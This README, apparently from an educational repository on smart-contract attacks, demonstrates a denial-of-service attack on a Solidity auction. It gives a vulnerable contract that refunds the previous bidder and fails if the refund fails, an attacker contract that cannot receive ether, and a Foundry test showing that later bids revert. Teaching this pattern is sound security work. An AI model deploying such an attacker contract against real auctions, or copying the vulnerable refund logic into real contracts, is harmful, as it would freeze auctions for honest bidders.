 # DoS Attack Targeting an Auction Smart Contract

Denial of Service (DoS), also known as a DoS attack, renders smart contracts permanently or temporarily inaccessible to legitimate users.

## Installation 🛠️

1. Clone the repository:
```shell
git clone https://github.com/ionOM/smart-contract-attacks.git
```

2. Move to the auction folder:
```shell
cd smart-contract-attacks/denial-of-service/auction
```
3. When you are in the auction folder, type in the console:
```shell
forge test
```

## How this attack work

To illustrate how an unexpected revert can lead to a Denial-of-Service (DoS), let's examine the functionality of an Auction smart contract. In this contract, bidders can place bids, and upon the emergence of a new highest bidder, the contract initiates a refund to the previous bidder.

#### Auction.sol
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract Auction {
    address public lastBidder;
    uint256 public highestBid;

    function bid() public payable {
        require(msg.value > highestBid, "invalid amount");
        (bool sent, ) = payable(lastBidder).call{value: highestBid}("");
        require(sent, "Failed to send Ether");

       lastBidder = msg.sender;
       highestBid = msg.value;
    }
}
```


The Attacker contract retrieves the deployed address of the Auction contract and initializes it in the constructor, enabling the attacker to access the functions within the Auction contract. The attack() function subsequently invokes the bid() function of the Auction contract to place a bid.


#### AttackAuction.sol
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "./Auction.sol";

contract AttackAuction {
    Auction auction;

    constructor(Auction _auctionaddr) {
        auction = Auction(_auctionaddr);
    }

    function attack() public payable {
        auction.bid{value: msg.value}();
    }
}
```

#### How did the exploit take place? Let's break it down step by step.
Imagine users commencing the bidding process

1. User1 makes a bid for 1 ether and thus will be the lastBidder.
2. User2 makes a bid for 2 ether thus will take over the role of lastBidder and user1 is refunded back.
3. The attacker calls the contract attack() function and makes a bid with 3 ether. The attacker contract will be the new lastBidder and user2 is refunded back.
4. Now, if any other user makes a call to bid() function, the refund to the attacker contract will fail. This is because the Attacker contract has not implemented the receive() or fallback function to receive ether. Due to this any Solidity ether transfer function such as call(), send() or transfer() will result in an exception or unexpected revert due to the require() statement, stopping the execution.

So, no one else will be able to place a bid after the attacker makes their offer using the AttackAuction contract.
#### You can refer to the test that I created for testing
#### AuctionAttackTest.t.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Test} from "forge-std/Test.sol";
import {Auction} from "src/Auction.sol";
import {AttackAuction} from "src/AttackAuction.sol";

contract AuctionAttackTest is Test {
    Auction auction;
    AttackAuction attackContract;

    address deployAuction = makeAddr("deployAuction");
    address attacker = makeAddr("attacker");
    address user1 = makeAddr("user1");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");

    function setUp() public {
        vm.prank(deployAuction);
        auction = new Auction();
        vm.prank(attacker);
        attackContract = new AttackAuction(auction);
    }

    function test_attack_auction_dos() public  {
        // user1 makes a bid for 1 ether and thus will be the lastBidder.
        uint256 user1Bid = 1 ether;
        hoax(user1, 2 ether);
        auction.bid{value: user1Bid}();
        assertEq(user1Bid, auction.highestBid());

        // user2 makes a bid for 2 ether thus will take over the role of lastBidder
        // and user1 is refunded back.
        uint256 user2Bid = 2 ether;
        hoax(user2, 10 ether);
        auction.bid{value: user2Bid}();
        assertEq(user2Bid, auction.highestBid());

        // the attacker calls the contract attack() function and makes a bid with 3 ether
        // The attacker contract will be the new lastBidder and user2 is refunded back.
        uint256 attackerBid = 3 ether;
        hoax(attacker, 10 ether);
        attackContract.attack{value: attackerBid}();
        assertEq(attackerBid, auction.highestBid());

        /*Now, if any other user makes a call to bid() function, the refund to the
        attacker contract will fail. This is because the Attacker contract has not
        implemented the receive() or fallback function to receive ether. Due to this
        any Solidity ether transfer function such as call(), send() or transfer() will
        result in an exception or unexpected revert due to the require() statement,
        stopping the execution.
        */
        uint256 user3Bid = 4 ether;
        hoax(user3, 10 ether);
        vm.expectRevert(bytes("Failed to send Ether"));
        auction.bid{value: user3Bid}();
        assertEq(attackerBid, auction.highestBid());
    }

}
```
